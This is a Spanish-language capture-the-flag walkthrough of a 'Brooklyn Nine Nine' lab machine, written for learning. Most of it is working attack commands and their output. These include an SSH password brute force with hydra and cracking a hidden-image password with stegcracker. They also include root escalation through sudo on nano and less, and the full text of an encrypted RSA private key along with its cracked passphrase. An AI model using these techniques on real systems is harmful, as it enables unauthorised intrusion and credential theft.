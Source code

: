 # Brooklyn Nine Nine
Room bastante sencilla, el punto fuerte, tiene al menos dos vias para hacer Privesc distintas
## Initial Scan
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.95.54
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
```
## Enum 
### FTP 
Tenemos un login Anonymous habilitado, entramos y solo podemos recuperar lo siguiente
```
-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
```
El archivo nos habla de un user con una pass debil
```
Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
Vamos a probar a tirar de bruteforcing 
```
hydra -l jake -P ~/rockyou.txt ssh://10.10.128.204
```
Y tenemos la pass 
```
[22][ssh] host: 10.10.128.204   login: jake   password: 987654321
```

### HTTP
En el fuente de la página encontramos el siguiente comentario:
```html
<!-- Have you ever heard of steganography? -->
```
Y la pagina parece tener solamente una imagen asi que descargemosla y probemos con stegcracker
```
Attacking file 'brooklyn99.jpg' with wordlist '~/rockyou.txt'..
Successfully cracked file with password: admin
Tried 20458 passwords
Your file has been written to: brooklyn99.jpg.out
admin
```
Veamos el archivo:
```
Holts Password:
fluffydog12@ninenine

Enjoy!!
```

Con esto ya podemos entrar como holt

## Privesc
### Holt 
```
User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```
Easy Peasy
```
holt@brookly_nine_nine:~$: sudo /bin/nano -s /bin/sh
> /bin/sh
> [CTRL + T]
root@brookly_nine_nine:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### Jake
```
User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
Easy 2.0
```
jake@brookly_nine_nine:~$ sudo less /etc/profile
> !/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

### Amy

Dentro de la carpeta de amy encontramos una clave rsa
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,8A45EF5CE95F44B523FBD6AEEAD2B9E6

//MOmD5ttJ6rTXqLiBtvOmCcXLWmgexGwQZc2sy6P9mVlh9nUD2g2gN/SwyOIOzo
pWBjAatk7qpqwbsGDstQsKErCDGCH/qjF49zG1meMNbzxFQAT5vOxGM/0oYJwD9F
BKeRcOqY0vKjiJz0Wf9ZA3+CF3xdjNvVhneGe3BE1jEX2J3+sGZ0qiNLkYn6Mw+h
jDLglBkq1qNxsGD1uKI6Hau4tOykPDphrhTiY+os7zyloEaVto53d1JUolL0W6qG
OwjIY37KP0VjwUClUivwu24yWJLZ8ISIy+PVb9AXcOSERxSFbXpuWMVurYpenc5a
TyinBbDZI31+xStteQYCb3SrnPlHQC1waAMr22RzXMSNpdJ29D7Use8CMMsBofFv
5v43IhNuNVuGik1Qoh4kg45aIW4PHpEIzHqz89hzHnTNJnbkZIri4VPDu1+tgeUB
YVXclhpOXj+AI8FeJix1OIW6lGQM48iApBq0GQn5877vxaepP2A2BU44Ips2WYvG
WxD8u9nW7muG8hEtU/Jmz1v1j5PIJm9BENkam/4/7VRbGw2RO3FUjpAHsdnzr+k5
yZ/sxWpVkIhbO3SO3/+TUTIAODZJ3fJB5fHspXCwIjWoU4ff6aW+LsDv5rpXbrxt
IqA+mpn31fwr0nmVYS/+seDA0atdFl6c+1Zav7dSoNF+hlqssxX7YXm3+LGQdQWa
gSNNSS3Cj6gyPUSs6+t0mKHzgnB/Ofah2epLzi9/K+UxKtyCjnKlYV8GSH+EZIPk
YPKGnzHet4QRrhP6YYeBfatDeblxIQZX1u6G9gGkWqFFIXgMe2wDyaoBA/cS2/am
GcS1SP0tNOZCsAMz5Q87YG44nhaSJReuUnna4fHBhti6pymWZYXvecovB/23xpNu
LDkoxmZDa/jUfO0Ua9xuhjp3usT3Nin2iAUl3inLXzpr6wQDoW1OuZbV6jitqdMv
v1Yf/Ycn5/g07aCpVAv8VyZ1J2/ilDOFuaVPQBJXKsm79fbLbXj2gTGjwKTo2JBa
EqPBMxD1X2gKxUQky9c/W1NfvZ1DqdU2+KC9o/qztuWRzO+MA/UwGKEJ93mcmeqA
6cxRy+IuzuS4/U7EegNLd6VkAJANYgXmr6Q3HlzuH8opFvh33VFejww4/w99jQfZ
mTSqSPS0QX9Sdo7U58IfDq+j13Il/aymcSWkBw6/DDwdDzl/7ZQ/X/XqE0Jjh1QY
Ro6xjI5LnDDCZjXkNu0Da/AfQG/Y0AzZUylhnH0/l4vdXPGDRffxlEQQNnGKwGk9
GSFvIHuEni9c/G7vW/wNgI9mSlycR02oCVyInHMepcLWDYyIAyFEyh/G65iGG0Z/
Y6cdOJSYTyuwVbK8469YHowvD4/7urHaSLeNmViT+URyoRLp9wV/8HaNMW5q5i6D
p0TrrdkFQiDR5X+rbfL+EgFYCwOanABkK+FzptbXB0ABte7L+PSICvZKsCn/yo6z
fxraAZ0nJejWQEYEH99o7T7uHkR+CZSD8gWPBsaP8pfPJSeKR9LzXG3MOWGc+5/p
gZBPQI5EwbUaWtnwEKqzTqT1G/+iYps8ExqUGj9lZWPnwNAEnWXiKJfTZF2lJyqz
-----END RSA PRIVATE KEY-----

```
Si la crackeamos veremos que la contraseña es jake1 , el problema es que nos pide pass y clave para entrar como amy, asi que no se de donde sacarla, sin usar el hash de shadow.txt obtenible mediante la escalada a root usando cualquier otro usuario
